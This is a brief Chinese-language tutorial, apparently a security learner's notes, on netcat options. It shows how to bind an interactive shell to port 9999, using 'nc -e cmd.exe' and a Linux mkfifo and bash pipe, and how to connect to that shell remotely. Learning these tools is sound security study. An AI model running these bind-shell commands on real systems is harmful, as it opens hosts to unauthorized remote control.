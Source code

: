 ## netcat使用

netcat 有很多不同的实现。

下面的链接可以下载到适用于windows的带-e参数的netcat程序

<https://eternallybored.org/misc/netcat/>



### 用到的参数

nc [参数] 主机 端口

-l  指定nc使用监听模式，而不是对指定的主机端口进行连接

-p 端口 指定端口

-e 文件 指定在建立连接后，运行该文件并将输入输出定向到该文件

-v 让nc提供更多的信息



### 例子



#### 将本机的0.0.0.0:9999绑定一个shell

**有-e参数的情况下**

`nc -lvp 9999 -e cmd.exe`

**使用管道符和输入输出重定向来实现绑定(Linux)**

```shell
$ mkfifo /tmp/stdin
$ cat /tmp/stdin | /bin/bash -i 2>&1 | nc -l 0.0.0.0 9999 >/tmp/stdin
```

`mkfifo /tmp/stdin` 的作用是创建一个管道文件。管道文件里的数据读取后就会被清空

`| /bin/bash -i 2>&1` 的作用是将管道文件里的数据作为/bin/bash文件运行的时的输入，指定使用交互模式，并将错误信息stderr定向到stdout

#### 连接对方主机的shell

```shell
$ nc 192.168.247.21 9999
leaf@leaf-vm:/mnt/hgfs/workspace/security/pwn_code/how2heap/test_groud$ ls
ls
house_of_spirit.c
re
```



### 参考

mkfifo 命令创建命名管道实现进程之间通信 <https://blog.csdn.net/orangleliu/article/details/49133199>